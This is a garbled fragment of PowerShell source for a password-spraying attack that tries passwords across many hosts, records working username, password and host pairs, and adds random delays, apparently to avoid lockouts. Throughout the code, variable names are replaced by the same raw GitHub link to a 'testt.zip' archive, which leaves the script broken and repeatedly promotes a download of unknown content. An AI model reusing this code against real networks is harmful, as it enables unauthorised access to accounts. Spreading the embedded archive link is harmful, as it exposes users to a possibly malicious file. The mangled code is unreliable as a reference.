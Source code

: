                 $attemptCount++
                
                if ($result) {
                    Write-Host "[SUCCESS] $($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip)@$Domain : $password on $($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip)" -ForegroundColor Green
                    $results += @{
                        Username = $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip
                        Password = $password
                        Host = $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip
                        IP = $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip
                        Timestamp = Get-Date
                    }
                    $successHosts += $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip
                }
                
                # Random delay between attempts
                Start-RandomDelay
            }
            
            # Report progress
            if ($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip -gt 0) {
                Write-Host "[+] Password '$password' worked for $user on $($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip) hosts" -ForegroundColor Green
            }
            
            # Remove tested hosts and add new ones for next batch
            $TargetHosts = $TargetHosts | Where-Object { $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip -notin $successHosts }
            
            if ($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip -eq 0) {
                Write-Host "[*] All hosts tested for current password" -ForegroundColor Yellow
                break
            }
        }
        
        # Significant delay between password attempts
        Write-Host "[*] Completed password: $password - Total attempts: $attemptCount" -ForegroundColor Yellow
        Start-Sleep -Seconds (Get-Random -Minimum 30 -Maximum 120)
        
        if ($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip -eq 0) {
            break
        }
    }
    
    return $results
}
